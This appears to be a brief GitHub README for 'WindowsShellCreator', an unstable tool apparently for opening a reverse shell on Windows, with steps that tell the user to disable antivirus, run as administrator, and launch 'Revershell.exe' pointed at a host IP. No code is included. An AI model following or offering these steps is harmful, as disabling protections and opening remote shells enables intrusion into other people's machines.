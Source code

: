 # WindowsShellCreator
### (Unstable Version)

## How to Use ?
#### 1. Disable AntiVirus Software
#### 2. Download Zip File 
#### 3. Extract File
#### 4. Open CMD or Powershell as Administrator 
#### 5. type "Revershell.exe -host 'your device ip'"


### Note : It is Unstable Version So it may not work on all devices
